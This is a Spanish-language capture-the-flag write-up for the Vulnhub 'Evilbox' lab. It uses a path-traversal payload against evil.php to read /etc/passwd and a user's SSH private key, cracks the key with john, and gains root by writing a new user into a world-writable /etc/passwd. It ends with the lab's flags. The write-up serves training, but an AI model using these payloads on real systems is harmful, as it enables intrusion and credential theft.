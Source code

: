 ```yaml
---
title: "Evilbox"
excerpt: "[Easy][Vulnhub] Writeup de Evilbox."
header:
  teaser: ""
tags:
  - vulnhub
  - easy
  - writeup
categories:
  - vulnhub
---
```


[https://www.vulnhub.com/entry/odin-1,619//](https://www.vulnhub.com/entry/odin-1,619/)


```bash
sudo nmap -vvv -sS -sV -O -Pn 192.168.122.0/24
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/1.png){: .align-center}

Saldrá una IP con los puertos 80 y 22 abiertos

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/2.png){: .align-center}

Al entrar en la web aparecerá la página por defecto de Apache y no se mostrará nada en el código fuente

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/3.png){: .align-center}

Escanear todos los directorios ocultos

```bash
sudo gobuster dir –u 192.168.122.14 -w /usr/share/wordlists/dirb/big.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/4.png){: .align-center}

Mostrará el archivo `robots.txt` y un directorio llamado `secret`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/5.png){: .align-center}

Ir a robots.txt, no mostrará nada relevante
`192.168.122.14/robots.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/6.png){: .align-center}

Ir a secret, no mostrará contenido, sin embargo tampoco mostrará mensaje de error
`192.168.122.14/secret`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/7.png){: .align-center}

Realizar escaneo de directorios bajo el directorio secret y listando todo lo que termine en html, php o txt

```bash
sudo gobuster dir –u 192.168.122.14/secret  -w /usr/share/wordlists/dirb/big.txt -x html,php,txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/8.png){: .align-center}

Aparecerá un nuevo archivo llamado `evil.php`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/9.png){: .align-center}

Al ir de nuevo no mostrará nada, ni si quiera mensaje de error

`192.168.122.14/secret/evil.php`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/10.png){: .align-center}

Tratar de fuzzear para intentar ejecutar comandos y de este modo leer el contenido de `/etc/passwd`

```bash
wfuzz -u "http://192.168.122.14/secret/evil.php?FUZZ=../../../../../../etc/passwd"  -w /usr/share/wordlists/fuzz-lfi-params-list.txt -hw 0
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/11.png){: .align-center}

Aparecerá como resultado que puede usarse command

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/12.png){: .align-center}

Ir a la url añadiendo `?command=../../../../../../etc/passwd`

`192.168.122.14/secret/evil.php?command=../../../../../../etc/passwd`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/13.png){: .align-center}

Inspeccionar el código fuente para que se muestre de forma ordenada

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/14.png){: .align-center}

Al observar el archivo `/etc/passwd` podrá verse un usuario llamado mowree

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/15.png){: .align-center}

Ir a `/home/mowree/.ssh/id_rsa` para buscar la clave privada del usuario

http://192.168.122.14/secret/evil.php?FUZZ=/home/mowree/.ssh/id_rsa

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/16.png){: .align-center}

Copiar la clave privada y guardarla en el equipo atacante

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/17.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/18.png){: .align-center}

Convertirlo a hash con la herramienta ssh2john.py y guardarlo en otro archivo nuevo

```bash
/usr/share/john/ssh2john.py id_rsa > id_rsa_hash.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/19.png){: .align-center}

Crackear la contraseña con john

```bash
john id_rsa_hash.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/21.png){: .align-center}

Mostrará la contraseña como resultado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/22.png){: .align-center}

Entrar por ssh con el usuario mowree y la contraseña encontrada

```bash
ssh mowree@192.168.122.14 -i id_rsa
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/23.png){: .align-center}

Mostrar el contenido del directorio home del usuario mowree y leer el archivo `user.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/24.png){: .align-center}

Al mostrar los permisos de `/etc/passwd` podrá verse que tiene permiso de escritura para todos los usuarios

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/25.png){: .align-center}

Crear una nuevo usuario con una clave creada en  formato sha-512 desde la maquina atacante

```bash
mkpasswd -m sha-512
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/26.png){: .align-center}

Guardarla en un archivo y crear una linea como si de un usuario se tratase, dando permisos de root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/27.png){: .align-center}

Copiar este nuevo usuario y ponerlo en el `/etc/passwd` de la máquina victima  

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/28.png){: .align-center}

Cambiar al usuario nuevo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/29.png){: .align-center}

Ir a `/root` y mostrar el contenido de root.txt

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/30.png){: .align-center}

## Flags

User: 56Rbp0soobpzWSVzKh9YOvzGLgtPZQ

Root: 36QtXfdJWvdC0VavlPIApUbDlqTsBM
